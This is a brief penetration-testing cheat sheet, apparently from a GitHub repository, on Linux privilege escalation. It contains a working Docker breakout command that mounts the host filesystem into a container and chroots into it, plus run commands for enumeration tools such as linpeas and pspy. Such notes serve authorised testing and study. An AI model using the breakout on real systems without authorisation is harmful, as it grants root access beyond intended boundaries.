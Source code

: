 ### Docker Breakout [PrivEsc]
-> Search the socket
```bash
find / -name docker.sock 2>/dev/null
```

-> list images  
```bash
docker images
```

-> Exploitation
```bash
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]
-> Linpeas
```bash
./linpeas.sh
```
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> pspy (unprivileged Linux process snooping)  
```bash
./pspy64
```
- https://github.com/DominicBreuker/pspy

-> linux-exploit-suggester
```bash
./linux-exploit-suggester.sh
```
or  
```bash
./linux-exploit-suiggester.sh --uname <uname-string>
```
- https://github.com/The-Z-Labs/linux-exploit-suggester

-> Unix Privesc Check
```bash
./unix-privesc-check
```
- https://pentestmonkey.net/tools/audit/unix-privesc-check
